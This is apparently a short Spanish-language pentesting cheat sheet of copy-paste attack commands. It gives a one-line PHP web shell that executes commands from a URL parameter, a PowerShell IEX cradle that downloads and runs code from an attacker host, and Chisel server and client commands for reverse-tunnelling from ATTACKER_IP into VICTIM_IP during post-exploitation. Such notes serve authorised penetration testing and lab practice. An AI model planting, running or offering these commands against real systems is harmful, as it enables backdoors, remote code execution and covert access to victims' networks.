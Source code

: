 # Cheatsheet
Cosas copypaste

# Reverse Shells

Web Shell PHP
```
<?php system($_GET[cmd]);?>
```

# Powershell

Descargar binarios
```
powershell IEX(New-Object Net.WebClient).downloadString('http://IP:PORT/binario.binario')
```

# PostExplotacion

## Chisel

Servidor
```
./chisel server --reverse -p ATACKER_PORT
```

Cliente
```
./chisel client ATTACKER_IP:ATTACKER_PORT R:VICTIM_IP:VICTIM_PORT
```


